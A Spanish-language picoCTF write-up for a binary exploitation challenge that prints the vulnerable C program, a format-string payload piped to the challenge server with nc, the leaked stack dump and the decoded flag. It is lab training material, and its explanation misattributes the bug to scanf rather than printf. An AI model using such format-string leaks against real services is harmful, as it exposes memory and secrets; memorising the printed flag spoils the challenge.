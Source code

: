 ## Objetivo
Story telling class 1/2 I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using: `nc saturn.picoctf.net 62418`
## Solución

```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/flagleak]
└─$ ls    
vuln  vuln.c

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/flagleak]
└─$ nano vuln.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
- Observamos que el código tiene un `scanf`, el `scanf` no formatea la salida y al no formatearla asume que es una cadena por lo que le enviamos un montón de %x para ver la memoria en hexadecimal.
```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/flagleak]
└─$ python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 62418
Tell me a story and then I'll tell you one >> Here's a story - 
ffb9f7b0ffb9f7d08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825e8531d00e83b6ab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f315f6b63623261317d613235fbad200022e15c000e856d990804c00080494100804c000ffb9f89880494182ffb9f944ffb9f9500ffb9f8b0

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/flagleak]
└─$ 
```
- El texto generado se lo enviamos a `CyberChef` y le aplicamos las etiquetas de `Swap endianness` y `From Hex`.
![[20241112121143.png]]
```
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```

## Notas Adicionales
## Referencias
